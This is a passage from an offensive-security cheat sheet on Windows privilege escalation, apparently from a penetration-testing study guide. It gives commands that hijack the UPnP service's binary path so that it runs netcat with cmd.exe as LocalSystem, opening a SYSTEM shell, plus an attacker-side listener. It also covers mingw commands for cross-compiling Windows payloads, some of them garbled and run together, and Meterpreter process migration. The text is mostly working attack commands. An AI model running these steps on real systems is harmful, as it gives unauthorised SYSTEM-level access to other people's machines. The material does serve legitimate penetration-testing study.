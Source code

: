 **-->** **Now, Change up the UPNP Service Binary Path (for example):**  
sc config upnphost binpath= "C:\Tools\nc.exe -nlvp 6666 -e C:\Windows\system32\cmd.exe"  
sc config upnphost obj= ".\LocalSystem" password= ""  
sc config upnphost depend= ""  
net stop <service>  
**-->** Attacking Machine  
nc -nlvp 6666  
net start <service>  
  
**Tools:**  
(Remember how I said to save a local copy of that systeminfo output?)  
[https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)  
  
+ **How do I cross-compile payloads for Windows on Linux, S1REN?**  
**-->** Dude, _check this out_.  
apt-get install mingw-w64  
  
**+ Cross-Compilation Reference:**  
- Ci686-w64-mingw32-gcc hello.c -o hello32.exe       
- 32-bitx86_64-w64-mingw32-gcc hello.c -o hello64.exe      
- 64-bit # C++i686-w64-mingw32-g++ hello.cc -o hello32.exe      
- 32-bitx86_64-w64-mingw32-g++ hello.cc -o hello64.exe   # 64-bit

  
+ **Migrate to a stable process.**  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/  
**-->** "_Using the **migrate** post module, you can migrate to another process on the victim._"  
**meterpreter>** run post/windows/manage/migrate  
**meterpreter>** migrate -h  
**meterpreter>** migrate <PID>
